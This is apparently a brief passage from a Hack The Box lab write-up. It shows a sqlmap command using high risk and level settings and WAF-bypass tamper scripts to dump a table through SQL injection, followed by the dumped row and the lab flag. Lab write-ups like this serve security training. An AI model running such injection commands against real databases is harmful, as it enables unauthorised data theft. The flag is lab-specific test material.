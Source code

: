 
```
python3 sqlmap.py -r Case11.txt -T flag11 --dump --risk=3 --level=5 --batch --tamper=greatest,least --threads=10
```

We get this output:

```
Database: testdb
Table: flag11
[1 entry]
+----+----------------------------+
| id | content                    |
+----+----------------------------+
| 1  | HTB{5p3c14l_ch4r5_n0_m0r3} |
+----+----------------------------+
```

Flag is `HTB{5p3c14l_ch4r5_n0_m0r3}`

